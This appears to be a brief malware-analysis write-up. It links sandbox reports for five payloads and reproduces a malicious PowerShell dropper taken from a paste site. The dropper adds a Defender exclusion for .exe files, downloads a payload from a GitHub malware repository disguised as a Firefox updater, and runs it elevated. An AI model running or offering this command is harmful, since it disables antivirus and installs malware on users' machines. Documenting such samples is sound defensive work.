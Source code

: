 - Payload 1: [https://tria.ge/250401-l4tfsszkz9/behavioral1](https://tria.ge/250401-l4tfsszkz9/behavioral1)
- Payload 2: [https://tria.ge/250401-l8p9yaxvc1/behavioral1](https://tria.ge/250401-l8p9yaxvc1/behavioral1)
- Payload 3: [https://tria.ge/250401-l8yajszlt6/behavioral1](https://tria.ge/250401-l8yajszlt6/behavioral1)
- Payload 4: [https://tria.ge/250401-l7htgazls9/behavioral1](https://tria.ge/250401-l7htgazls9/behavioral1)
- Payload 5: [https://tria.ge/250401-l5p5rsxvbz/behavioral1](https://tria.ge/250401-l5p5rsxvbz/behavioral1)

Grabbed from:  
[https://idefasoft.com/pastes/yUmTjqdnCjrD/raw/](https://idefasoft.com/pastes/yUmTjqdnCjrD/raw/)

> ⚠️⚠️ WARNING: This PowerShell is **malicious**. Do not run it. ⚠️⚠️  
> For **educational purposes only** – shown here as part of analysis.

```powershell
Set-MpPreference -ExclusionExtension *.exe
Invoke-WebRequest -Uri "https://raw.githubusercontent.com/Lapresse-Hugo/MalwareDatabase/refs/heads/master/Unknown/1.zip" -OutFile "$Env:LocalAppData\Updates\firefox_updater.exe"; Start-Process -Verb RunAs -Filepath "$Env:LocalAppData\Updates\firefox_updater.exe"
```

---

Despite `.zip` extension, all are PyInstaller-packed `.exe` files.

### Payload Analysis (via Detect It Easy):

- **Payloads 1, 3, 5** → PyInstaller executables

![Detect it Easy](./images/image.webp)
